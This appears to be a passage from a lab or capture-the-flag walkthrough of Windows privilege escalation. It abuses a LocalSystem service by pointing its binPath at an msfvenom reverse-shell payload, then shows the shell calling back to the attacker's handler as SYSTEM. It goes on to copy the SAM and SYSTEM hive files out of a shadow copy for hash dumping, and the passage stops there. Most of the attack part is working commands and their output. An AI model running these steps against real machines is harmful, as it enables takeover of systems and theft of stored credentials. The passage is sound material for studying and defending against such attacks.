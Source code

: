 The "sc qc <servicename>" give us more information about the service, so by observing it we can see the "service\_start\_name" which is localsystem it means that the service is running with admin privileges.   
   
So hear now we can change the daclservice.exe with our own reverseshell.exe file, below are some basic command to start, stop, and change the service's .exe file path.   
   
```
#To change the file path 
sc config <service_name> binPath= "<new_exe_path>"

#To start and Stop service 
net stop <service_name> && net start <service_name>


```
   
What u need to do now is.   
 1.make a windows payload using msfvenom. (use payload shell\_reverse\_tcp)   
 2.Then transfer the payload to windows.   
 3.Then change the service file path with payload file.   
 4. Start the service.   
   
```
msf6 exploit(multi/handler) > exploit 
[*] Started reverse TCP handler on 10.8.67.206:53 
[*] Command shell session 3 opened (10.8.67.206:53 -> 10.10.144.224:49718) at 2025-03-23 09:26:33 +0530


Shell Banner:
Microsoft Windows [Version 10.0.17763.737]
-----
          

C:\Windows\system32>whoami
whoami
nt authority\system

```
   
After starting we will get a rev shell with admin privileges, lets dump the SAM hashes using mimikaza,   
  First we will copy the SAM SYSTEM and SECURITY file.   
  ```
C:\PrivEsc>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\PrivEsc\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\PrivEsc\SAM
        1 file(s) copied.

C:\PrivEsc>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\PrivEsc\SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\PrivEsc\SYSTEM
        1 file(s) copied.

